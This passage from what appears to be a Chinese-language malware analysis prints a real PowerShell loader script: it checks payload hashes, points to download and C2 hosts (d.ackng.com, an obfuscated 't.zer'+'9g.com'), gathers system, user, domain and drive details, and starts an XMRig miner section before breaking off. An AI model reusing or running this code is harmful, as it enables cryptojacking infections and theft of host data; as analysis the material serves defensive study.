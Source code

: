 关闭Outlook安全告警，加载执行`if_mail.bin`

```powershell
# 判断当前运行环境 64位/32位
if([IntPtr]::Size -eq 8){$is64=$true}
$ifbin="if.bin"
$ifmd5="45ef8d4faac68bd425bfdfe064602377"
if($is64){
	$mbin="m6.bin"
	$mmd5="5b2849ff2e8c335dcc60fd2155b2d4d3"
	$mgbin="m6g.bin"
	$mgmd5="23d59ed726e13edabcb751da7a5ce310"
}
# md5生成函数
function gmd5($d){
	[Security.Cryptography.MD5]::Create().ComputeHash($d)|foreach{$l+=$_.ToString('x2')}
	return $l
}
# 本地PayloadsMD5
$lifmd5,$lmmd5,$lmgmd5="","",""
try{
	$lifmd5=gmd5 ([IO.File]::ReadAllBytes("$env:tmp\$ifbin"))
}catch{}
try{
	$lmmd5=gmd5 ([IO.File]::ReadAllBytes("$env:tmp\$mbin"))
}catch{}
$down_url = "http://d.ackng.com"

# 获取mail.jsp定义的$url='http://'+'t.zer'+'9g.com'
$core_url = $url.split("/")[0..2]-join"/"
# 管理员权限判定
$permit = ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")

# 系统信息获取
$comp_name = $env:COMPUTERNAME
$guid = (get-wmiobject Win32_ComputerSystemProduct).UUID
$mac = (Get-WmiObject Win32_NetworkAdapterConfiguration | where {$_.ipenabled -EQ $true}).Macaddress | select-object -first 1
$osb = (Get-WmiObject -class Win32_OperatingSystem)
# 系统版本
$os = $osb.Caption.replace("Microsoft Windows ","")+"_"+$osb.Version
$user = $env:USERNAME
# 域信息获取
$domain = (Get-WmiObject win32_computersystem).Domain
# 开机时间
$uptime = [timespan]::FromMilliseconds([environment]::TickCount)|foreach{$_.totalseconds}
# 显卡信息获取
$card = (Get-WmiObject Win32_VideoController).name
# 获取内存信息
gwmi Win32_PhysicalMemory | %{$msum = 0} { $msum += $_.Capacity };
$mem=$msum/1Gb
# 获取满足条件的存储盘信息
try{
	$drive = ([system.IO.DriveInfo]::GetDrives() | where {$_.IsReady -and ($_.AvailableFreeSpace -gt 1024) -and (($_.DriveType -eq "Removable") -or ($_.DriveType -eq "Network")) -and (($_.DriveFormat -eq "NTFS") -or ($_.DriveFormat -eq "FAT32"))} | foreach{($_.Name)[0]+"_"+($_.DriveType.tostring())[0]})-join"|"
}catch{}

$timestamp = (Get-Date -UFormat "%s").Substring(0,9)
# XMRig矿工信息
try{
	[Reflection.Assembly]::LoadWithPartialName("System.Web.Extensions")
```